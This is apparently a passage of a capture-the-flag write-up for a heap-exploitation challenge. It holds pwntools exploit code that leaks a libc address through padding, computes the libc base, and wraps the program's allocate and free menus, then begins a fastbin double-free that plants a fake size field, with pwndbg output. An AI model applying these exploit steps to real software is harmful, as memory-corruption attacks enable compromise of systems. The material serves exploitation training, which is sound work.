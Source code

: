 ```python
       io.sendafter(b"Cast a magic spell to enhance your army's power: ", b"r3dDr4g3nst1str0f1" + b"A"*add)  
       io.recvuntil(b"Army's power has been buffed with spell: r3dDr4g3nst1str0f1"+b"A"*add)  
       leak = int.from_bytes(io.recvline().strip(),byteorder="little")  
       print(f"leak: {leak:#x}   |  using {add} A's")  
       add += 1  
       io.close()
```

now that we found what we wanted:
```python
io.sendafter(b"Cast a magic spell to enhance your army's power: ", b"r3dDr4g3nst1str0f1" + b"A"*38)  
io.recvuntil(b"Army's power has been buffed with spell: r3dDr4g3nst1str0f1" + b"A"*38)  
leak = int.from_bytes(io.recvline().strip(),byteorder="little")  
log.info(f"leak: {leak:#x}")  
  
libc.address = leak - (libc.sym.__GI__IO_fwrite+185)  
log.info(f"LIBC base: {libc.address:#x}")
```

- we rebase libc...
```python
libc.address = leak - (libc.sym.__GI__IO_fwrite+185)  
log.info(f"LIBC base: {libc.address:#x}")
```

- our wrapper functions:
```python
def malloc(size, data):  
   io.sendlineafter(b">> ", b"1")  
   io.sendlineafter(b"Dragon's length: ", str(size).encode())  
   io.sendlineafter(b"Name your dragon: ", data)  
  
  
def free(index):  
   io.sendlineafter(b">> ", b"2")  
   io.sendlineafter(b"Dragon of choice: ", index)
```


---

# Exploit Development
- it's important to note that 90% of this challenge was debugging.
- we can use the commands in our debugger (GDB): `arena`, `arenas`, `heap`, `fastbins`, `tel &main_arena` & `vis` for debugging the heap and looking at the memory.
	- we also utilize `dq` and `x` for examining memory


- overwrite the fastbin fd with a fake size field.
```python
malloc(0x28, b"A"*8)  
malloc(0x28, b"B"*8)  
  
free(b"0")  
free(b"1") 
free(b"0")

malloc(0x28, p64(0x61)) # fake size field 0x61
```
```
pwndbg> fastbins  
fastbins  
0x30: 0x61
```